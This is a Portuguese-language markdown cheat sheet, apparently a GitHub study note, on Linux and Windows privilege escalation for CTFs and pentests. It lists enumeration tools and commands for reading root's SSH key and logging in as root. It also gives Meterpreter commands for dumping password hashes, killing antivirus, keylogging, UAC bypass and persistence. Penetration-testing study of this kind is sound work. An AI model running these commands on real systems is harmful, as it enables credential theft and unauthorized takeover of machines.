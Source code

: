 # 🧬 Privilege Escalation - Anotações de Elevação de Privilégios

Este documento contém referências, comandos e dicas para **elevação de privilégios em ambientes Linux e Windows**, seja em CTFs, pentests ou laboratórios de estudo.

---

## 📜 Scripts de Enumeração (Linux / Windows)

Ferramentas automatizadas para levantamento de informações que possam levar à escalada de privilégios:

- 🔍 [PEASS-ng (LinPEAS / WinPEAS)](https://github.com/peass-ng/PEASS-ng)
- 🐧 [LinEnum](https://github.com/rebootuser/LinEnum)
- 🧪 [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
- 🪟 [Seatbelt (Windows)](https://github.com/GhostPack/Seatbelt)
- 🪟 [JAWS - Windows Privilege Escalation](https://github.com/411Hall/JAWS)

> ⚠️ **Atenção:** Esses scripts executam diversos comandos potencialmente detectáveis por antivírus ou sistemas de monitoramento. Em ambientes sensíveis ou reais, considere fazer **enumeração manual** para reduzir o "ruído".

---

## 🛠️ Dicas e Técnicas Gerais

Comandos e abordagens manuais úteis para escalada de privilégios.

### 🔑 Acesso via chave SSH do root

Verifique permissões da chave privada do root:

```bash
ls -ld /root/.ssh/id_rsa
```
Se tiver leitura, copie o conteúdo, salve como id_rsa localmente e:

```bash
chmod 600 id_rsa
ssh root@<IP> -i id_rsa
```
### 🔎 Enumeração de Sistema e Ambiente Linux

```bash
# Informações do kernel e sistema
cat /proc/version
uname -a
lsb_release -a
cat /etc/os-release

# Variáveis de ambiente
echo $PATH
env
set
```
### 🔎 Enumeração de Sistema e Ambiente Windows

```bash
sysinfo
getuid
whoami /priv
getsystem
ps
getpid e depois migrate id_de_outro_processo_para_persisntecia
bypass de UAC
hashdump
```
### Meterpreter / Metasploit

```bash
run killav
screenshot
run vnc
keyscan_start
keyscan_dump
search -d C:/Users -f .pdf
download -r caminho
upload arquivo caminho
use multi/recon/local_exploit_suggester
```


### 🔐 Permissões Sudo
Verifique permissões do usuário:

```bash
sudo -l
```

### 📦 Pacotes, Jobs e Reutilização
Verificar pacotes instalados (Linux):

```bash
dpkg -l
```

### Checar histórico de comandos:

```bash
cat ~/.bash_history
# Ou, no Windows:
Get-Content (Get-PSReadlineOption).HistorySavePath
```

## 🌐 Sites e Recursos Úteis

- 🧠 [HackTricks](https://book.hacktricks.xyz/)  
  Guia abrangente sobre pentest, enumeração, privilege escalation, bypasses e muito mais.

- 📂 [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
  Repositório com payloads organizados por categoria (XSS, LFI, privilege escalation, etc).

- 🔍 [GTFOBins](https://gtfobins.github.io/)  
  Abusa de binários comuns do Linux para executar comandos com escalada de privilégios.

- 🧬 [LOLBAS](https://lolbas-project.github.io/)  
  Coleta de binários nativos do Windows que podem ser abusados para execução arbitrária.

- 💣 [Exploit-DB (searchsploit)](https://www.exploit-db.com/)  
  Banco de dados de exploits — também acessível via CLI com o comando `searchsploit`.





